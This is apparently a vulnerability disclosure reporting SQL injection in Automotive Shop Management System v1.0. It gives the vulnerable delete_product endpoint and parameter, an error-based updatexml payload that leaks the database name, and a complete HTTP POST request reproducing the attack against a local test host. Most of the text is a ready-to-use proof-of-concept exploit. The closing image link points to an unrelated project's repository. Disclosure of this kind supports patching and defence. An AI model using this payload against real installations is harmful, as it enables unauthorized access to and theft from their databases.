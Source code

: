 # Automotive Shop Management System v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /asms/classes/Master.php?f=delete_product

Vulnerability location: /asms/classes/Master.php?f=delete_product, id

[+] Payload: id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

Tested on Windows 10, XAMPP

```
POST /asms/classes/Master.php?f=delete_product HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 65
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/asms/admin/?page=products
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true)

